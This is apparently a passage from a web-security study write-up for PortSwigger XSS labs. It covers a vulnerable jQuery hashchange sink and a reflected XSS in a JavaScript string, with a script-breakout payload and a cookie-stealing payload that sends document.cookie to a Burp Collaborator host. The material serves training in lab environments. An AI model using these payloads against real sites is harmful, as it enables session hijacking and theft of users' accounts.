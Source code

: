 >Note: ***Identify*** the vulnerable jquery 1.8.2 version included in the `source code` with the CSS selector action a the **hashchange**.  

![Hashchange](images/hashchange.png)  

[PortSwigger Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)  
  
[Crypto-Cat: DOM XSS in jQuery selector sink using a hashchange event](https://github.com/Crypto-Cat/CTF/blob/main/web/WebSecurityAcademy/xss/dom_xss_jquery_hashchange/writeup.md)  

### Reflected String XSS  

>Submitting a search string and reviewing the `source code` of the search result page, the JavaScript string variable is ***identified*** to reflect the search string `tracker.gif` in the `source code` with a variable named `searchTerms`.  

```html
<section class=blog-header>
	<h1>0 search results for 'fuzzer'</h1>
	<hr>
</section>
<section class=search>
	<form action=/ method=GET>
		<input type=text placeholder='Search the blog...' name=term>
		<button type=submit class=button>Search</button>
    </form>
    </section>
	<script>
    var searchTerms = 'fuzzer';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```  

![JavaScript string with single quote and backslash escaped](images/javascript-string-reflection.png)  

>Using a payload ```test'payload``` and observe that a single quote gets backslash-escaped, preventing breaking out of the string.  

```JavaScript
</script><script>alert(1)</script>
```  

>Changing the payload to a cookie stealer that deliver the session token to Burp Collaborator. 

```html
</script><script>document.location="https://Collaborator.net/?cookie="+document.cookie</script>
```  

![collaborator get cookies](images/collaborator-get-cookies.png)  

>When placing this payload in `iframe`, the target application do not allow it to be embedded and give message: `refused to connect`.  
  
[PortSwigger Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)  
  